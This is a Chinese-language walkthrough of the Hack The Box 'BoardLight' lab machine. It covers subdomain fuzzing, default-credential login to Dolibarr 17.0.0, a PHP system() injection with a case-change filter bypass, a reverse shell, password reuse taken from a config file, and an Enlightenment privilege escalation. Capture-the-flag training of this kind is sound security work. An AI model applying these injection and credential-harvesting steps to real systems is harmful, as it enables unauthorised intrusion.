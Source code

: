 ```yaml
---
title: Hack The Box BoardLight
description: Hack The Box BoardLight 靶机 WP
pubDate: 09 24 2024
image: https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-8.png?imageSlim
categories:
  - 网络安全
tags:
  - 靶场
  - Hack The Box靶场
  - 渗透测试
---
```


Hack The Box BoardLight 靶机

靶机IP：10.10.11.11

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-1.png?imageSlim)

## Web 渗透

放 Goby 里扫描

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-5.png?imageSlim)

发现开启 80 端口，查看 Web 页面

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-2.png?imageSlim)

发现一个域名

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-3.png?imageSlim)

```shell
board.htb
```

放进 Host 解析

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-4.png?imageSlim)

fuzz 一下子域名

```shell
.\wfuzz.bat -c -w "E:\Crack\Red_Team\Dict\SecLists\Discovery\DNS\subdomains-top1million-5000.txt" -u "http://board.htb/" -H "Host: FUZZ.board.htb"
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-6.png?imageSlim)

把 517 过滤掉

```shell
.\wfuzz.bat -c -w "E:\Crack\Red_Team\Dict\SecLists\Discovery\DNS\subdomains-top1million-5000.txt" -u "http://board.htb/" -H "Host: FUZZ.board.htb" --hl 517
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-7.png?imageSlim)

得到子域名 `crm.board.htb`，添加到 Host 里，访问

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-8.png?imageSlim)

得到一个 CMS 的登录界面，CMS 为 `Dolibarr 17.0.0`，查找默认密码

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-9.png?imageSlim)

可登录

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-10.png?imageSlim)

发现可以添加网页

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-11.png?imageSlim)

那就简单了，创建页面 abc

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-12.png?imageSlim)

创建时提示

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-13.png?imageSlim)

Website 是定时删除的，这里注意一下。重新创建，编辑 HTML 源，添加命令检查一下能不能执行

```shell
<?php echo system("whoami");?>
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-14.png?imageSlim)

额，禁止动态命令？大小写绕一下试试？

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-15.png?imageSlim)

可以了。准备一个 php反弹 shell 来反弹就可以了

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-16.png?imageSlim)

OK 拿到 shell

## 内网渗透

找 flag

```shell
find / -type f -name "user.txt"
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-18.png?imageSlim)

没有？说明在其他用户里，看看数据库配置里有没有啥信息泄露

```shell
find /var/www/html/crm.board.htb -type f -name "*conf*"
```

发现文件

```shell
/var/www/html/crm.board.htb/htdocs/conf/conf.php
```

得到一个用户账号密码

```shell
dolibarrowner/serverfun2$2023!!
```

主机上有这个用户吗？

```shell
cat /etc/passwd
```

没有，看看 Home 下面到底有几个用户

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-19.png?imageSlim)

有一个 `larissa`。试试登录一下 `larissa/serverfun2$2023!!`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-20.png?imageSlim)

登录进来了，找 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-21.png?imageSlim)

又到了喜闻乐见的 Linux 提权环节

用 `linux-smart-enumeration` 试试。

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-22.png?imageSlim)

DirtyPipe？试试

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-23.png?imageSlim)

失败了……看看linPEAS 能出啥

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-24.png?imageSlim)

额……大差不差，都用不了。然后下面也没啥东西了。然后看见 `enlightenment` 标红。

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-25.png?imageSlim)

桌面？

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-26.png?imageSlim)

好了，找 exp 直接利用就行了

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-27.png?imageSlim)

成功。拿到 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-28.png?imageSlim)
